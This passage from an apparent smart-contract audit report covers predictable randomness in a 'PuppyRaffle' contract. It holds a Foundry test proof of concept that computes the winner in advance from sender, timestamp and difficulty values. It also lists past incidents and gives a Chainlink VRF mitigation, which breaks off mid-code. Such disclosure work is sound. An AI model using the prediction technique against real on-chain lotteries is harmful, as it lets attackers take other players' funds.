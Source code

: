 **Proof of Concept:**

```solidity
function testWeakRandomness() public {
    address[] memory players = new address[](10);
    for (uint256 i = 0; i < 10; i++) {
        players[i] = address(uint160(i + 1));
    }
    puppyRaffle.enterRaffle{value: entranceFee * 10}(players);
    
    // Attacker can predict the winner before calling selectWinner
    uint256 predictedWinner = uint256(keccak256(abi.encodePacked(
        address(this),      // Known msg.sender
        block.timestamp,    // Known current timestamp
        block.difficulty    // Known current PREVRANDAO
    ))) % players.length;
    
    console.log("Predicted winner index:", predictedWinner);
    console.log("Predicted winner address:", players[predictedWinner]);
    
    // Fast forward past raffle duration
    vm.warp(block.timestamp + duration + 1);
    vm.roll(block.number + 1);
    
    // Select winner - result is predictable
    puppyRaffle.selectWinner();
    
    // Winner matches prediction
    address actualWinner = puppyRaffle.previousWinner();
    assertEq(actualWinner, players[predictedWinner]);
}
```

**Historical Attack Examples:**

- **$FFIST Token (2022)**: $110,000 loss due to predictable randomness exploitation
- **Various lottery contracts**: Multiple instances of validators manipulating outcomes
- **NFT minting contracts**: Attackers securing rare traits through randomness prediction

**Recommended Mitigation:**

**1. Chainlink VRF Implementation (Recommended):**

```solidity
import "@chainlink/contracts/src/v0.8/vrf/VRFConsumerBaseV2.sol";
import "@chainlink/contracts/src/v0.8/interfaces/VRFCoordinatorV2Interface.sol";

contract SecurePuppyRaffle is VRFConsumerBaseV2 {
    VRFCoordinatorV2Interface COORDINATOR;
    uint64 s_subscriptionId;
    bytes32 keyHash = 0x79d3d8832d904592c0bf9818b621522c988bb8b0c05cdc3b15aea1b6e8db0c15;
    uint32 callbackGasLimit = 100000;
    uint16 requestConfirmations = 3;
    uint32 numWords = 1;
    
    mapping(uint256 => bool) public s_requests;
    
    function selectWinner() external {
        require(block.timestamp >= raffleStartTime + raffleDuration, "Raffle not over");
        require(players.length >= 4, "Need at least 4 players");
        
        uint256 requestId = COORDINATOR.requestRandomWords(
            keyHash,
            s_subscriptionId,
            requestConfirmations,
            callbackGasLimit,
            numWords
```